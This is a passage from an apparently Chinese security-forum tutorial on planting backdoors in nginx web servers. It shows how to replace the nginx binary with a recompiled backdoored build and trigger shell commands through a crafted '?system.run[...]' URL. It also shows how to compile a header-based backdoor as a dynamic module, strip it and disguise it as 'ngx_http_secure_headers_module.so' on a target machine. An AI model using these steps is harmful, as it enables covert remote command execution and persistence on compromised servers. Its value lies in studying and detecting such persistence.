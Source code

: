 ![Untitled10.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-7e3fbcb78cbdabd33dc8acaf60ca7992759ef0e7.png)

此时将新编译好的nginx覆盖原有的nginx

```cpp
cp -f objs/nginx /usr/local/nginx/sbin/nginx
```

运用该后门需要重新启动nginx，启动前需要修改nginx.conf文件，在location中添加`command on;`

![Untitled11.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-40af49c1b2aef5001976794beb21d73be00b5d28.png)

现在，之后执行`nginx -s reload`重载nginx，此时通过访问curl -g "[](http://192.168.142.137/?system.run%5Bifconfig%5D)[http://192.168.142.137/?system.run\[ifconfig\]](http://192.168.142.137/?system.run%5Bifconfig%5D)”

可以看到结果，貌似有错

![Untitled12.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-548775a5c5d825052cab306f1419b0e65cc0853b.png)

那接下来看看源码是什么问题

![Untitled13.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-a42f0c859aacfc24b0969eb6004fe6a93455f03a.png)

修改后重复以上操作再次访问恶意url，可以看到命令执行结果

![Untitled14.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-fcb9be221df2507a394eb050ce06ad2c211e108d.png)

nginx header后门
--------------

跟上者不同的是对于请求内容来说，驻留后门的位置不一样。驻留该后门的方式与上者大致相同

[https://github.com/veo/nginx\_shell](https://github.com/veo/nginx_shell)

<https://github.com/vgo0/nginx-backdoor>

这两个项目都是不错的poc，也已经提供了完整的so模块，但是利用起来跟nginx编译版本有关，建议是重新根据nginx版本编译

### 方式一：

和上者一样使用`--add-module`将模块结合nginx重新编译并替换nginx

### 方式二：

nginx在1.9.11版本后开始支持动态加载模块，也就是说我们将编译好的二进制so模块在nginx.conf文件中引用即可。先根据服务器nginx自行编译so模块，./configure要与nginx编译环境一致

```cpp
./configure --add-dynamic-module=/tools/nginx-backdoor-master
make modules
strip -s objs/ngx_http_secure_headers_module.so
cp objs/ngx_http_secure_headers_module.so /usr/local/nginx/conf/modules/ngx_http_secure_headers_module.so
```

现在将文件\*\*`ngx_http_secure_headers_module.so`\*\*拷贝到目标机器nginx的modules目录下，修改目标nginx总配置文件nginx.conf，在最外层代码层添加:
